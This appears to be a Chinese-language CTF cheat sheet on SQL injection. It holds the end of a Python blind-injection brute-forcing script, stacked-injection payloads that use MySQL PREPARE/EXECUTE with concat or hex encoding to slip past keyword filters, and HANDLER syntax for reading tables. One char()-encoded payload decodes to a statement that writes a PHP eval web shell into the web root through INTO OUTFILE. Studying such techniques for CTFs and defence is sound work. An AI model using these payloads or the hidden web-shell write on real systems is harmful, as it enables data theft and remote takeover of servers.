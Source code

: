 ```python
        #print(url_get)
        content = requests.get(url_get)
        if keyword in content.text:
            string += j
            print(string)
            break
print("result = " + string)
```

[从CTF题中学习几种有趣(奇怪)的SQL注入](https://xz.aliyun.com/t/5356)
[REGEXP注入与LIKE注入学习笔记](https://xz.aliyun.com/t/8003)
[CTF中几种通用的sql盲注手法和注入的一些tips](https://www.anquanke.com/post/id/160584)

**堆叠注入**
在遇到堆叠注入时，如果select、rename、alter和handler等语句都被过滤的话，我们可以用**MySql预处理语句配合concat拼接**来执行sql语句拿flag
1. PREPARE：准备一条SQL语句，并分配给这条SQL语句一个名字(`hello`)供之后调用
2. EXECUTE：执行命令
3. DEALLOCATE PREPARE：释放命令
4. SET：用于设置变量(`@a`)

payload：
`-1';sEt @a=concat("sel","ect flag from flag_here");PRepare hello from @a;execute hello;#`

**MySql 预处理配合十六进制绕过关键字:**
`-1';sEt @a=0x73686F7720646174616261736573;PRepare hello from @a;execute hello;#`

**MySql预处理配合字符串拼接绕过关键字:**
原理就是借助`char()`函数将ascii码转化为字符然后再使用`concat()`函数将字符连接起来

```sql
set @sql=concat(char(115),char(101),char(108),char(101),char(99),char(116),char(32),char(39),char(60),char(63),char(112),char(104),char(112),char(32),char(101),char(118),char(97),char(108),char(40),char(36),char(95),char(80),char(79),char(83),char(84),char(91),char(119),char(104),char(111),char(97),char(109),char(105),char(93),char(41),char(59),char(63),char(62),char(39),char(32),char(105),char(110),char(116),char(111),char(32),char(111),char(117),char(116),char(102),char(105),char(108),char(101),char(32),char(39),char(47),char(118),char(97),char(114),char(47),char(119),char(119),char(119),char(47),char(104),char(116),char(109),char(108),char(47),char(102),char(97),char(118),char(105),char(99),char(111),char(110),char(47),char(115),char(104),char(101),char(108),char(108),char(46),char(112),char(104),char(112),char(39),char(59));prepare s1 from @sql;execute s1;

set @sql=char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,119,104,111,97,109,105,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,115,104,101,108,108,46,112,104,112,39,59);prepare s1 from @sql;execute s1;
```
使用handler：
```sql
handler <tablename> open as <handlername>; #指定数据表进行载入并将返回句柄重命名
handler <handlername> read first; #读取指定表/句柄的首行数据
handler <handlername> read next; #读取指定表/句柄的下一行数据
.....
handler <handlername> close; #关闭句柄
```
